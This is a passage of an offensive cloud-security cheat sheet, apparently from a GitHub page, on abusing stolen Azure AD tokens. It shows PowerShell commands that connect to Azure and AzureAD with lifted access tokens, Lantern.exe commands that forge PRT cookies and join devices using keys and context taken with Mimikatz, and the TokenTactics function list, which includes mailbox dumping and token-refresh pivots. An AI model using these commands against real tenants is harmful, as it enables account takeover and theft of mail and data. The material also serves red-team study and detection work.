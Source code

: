     # Access Token and Graph Token
    PS C:\Tools> $token = 'eyJ0eX..'
    PS C:\Tools> $graphaccesstoken = 'eyJ0eX..'
    PS C:\Tools> Connect-AzAccount -AccessToken $token -GraphAccessToken $graphaccesstoken -AccountId <ACCOUNT-ID>
    PS C:\Tools> Get-AzResource
    # ERROR: 'this.Client.SubscriptionId' cannot be null.
    # ---> The managed identity has no rights on any of the Azure resources. Switch to to GraphAPI
    ```
* AzureAD
    ```powershell
    Import-Module C:\Tools\AzureAD\AzureAD.psd1
    $AADToken = 'eyJ0…'
    Connect-AzureAD -AadAccessToken $AADToken -TenantId <TENANT-ID> -AccountId <ACCOUNT-ID>
    ```

### Refresh Tokens

* https://github.com/ConstantinT/Lantern
    ```powershell
    Lantern.exe cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
    Lantern.exe mdm --joindevice --accesstoken (or some combination from the token part) --devicename <Name> --outpfxfile <Some path>
    Lantern.exe token --username <Username> --password <Password>
    Lantern.exe token --refreshtoken <RefreshToken>
    Lantern.exe devicekeys --pfxpath XXXX.pfx --refreshtoken (--prtcookie / ---username + --password ) 
    ```
* https://github.com/rvrsh3ll/TokenTactics
    ```powershell
    Import-Module .\TokenTactics.psd1
    CommandType     Name                                               Version    Source
    -----------     ----                                               -------    ------
    Function        Clear-Token                                        0.0.1      TokenTactics
    Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
    Function        Forge-UserAgent                                    0.0.1      TokenTactics
    Function        Get-AzureToken                                     0.0.1      TokenTactics
    Function        Get-TenantID                                       0.0.1      TokenTactics
    Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
    Function        Parse-JWTtoken                                     0.0.1      TokenTactics
    Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
    Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
    Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
    Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
    Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
    Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
    Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
    Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
    Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
    Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
    Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
    Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
    Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
    ```

